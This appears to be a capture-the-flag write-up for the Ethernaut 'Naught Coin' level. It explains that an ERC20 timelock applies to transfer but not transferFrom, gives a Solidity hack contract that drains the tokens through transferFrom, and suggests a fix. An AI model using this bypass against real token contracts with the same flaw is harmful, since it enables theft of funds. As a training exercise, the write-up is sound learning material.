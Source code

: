 ```yaml
---
title: Level 15 - Naught Coin
slug: level-15
published: 05-23-2023
lastEdited:
imgSrc: /images/ethernaut/ethernaut15.svg
---
```


## Objectives

1. Empty your funds of a **ERC20** token.

## Vulnerabilities

### Function modifier applied to transfer but not transferFrom

This contract adds a **timelock** on the `transfer` function preventing you to transfer tokens within 10 years
of the contract's creation. On the other hand, the `transferFrom` function does not have the **timelock** implemented.

## Exploit

1. Write and deploy this simple hack contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./NaughtCoin.sol";

contract NaughtCoinHack {

    NaughtCoin target;

    constructor(address _targetAddress) {
        target = NaughtCoin(_targetAddress);
    }

    function hack() external {
        bool success = target.transferFrom(0xcC5065Fa8f55F6929E1fA52E1ee6911F12C54a7F, address(this), 1000000000000000000000000);
        require(success, "Transaction failed!");
    }
}
```

2. `approve` your total balance as allowance for the above contract's address. (I used the Remix interface).

3. Call the `hack` function which will `transfer` out all of your funds.

## Suggested mitigation

- Override the `transferFrom` function with the timelock modifier.

## Further reading

- Open Zeppelin's ERC20 implementation <ExternalLink href={"https://github.com/OpenZeppelin/openzeppelin-contracts/blob/9b3710465583284b8c4c5d2245749246bb2e0094/contracts/token/ERC20/ERC20.sol"} />
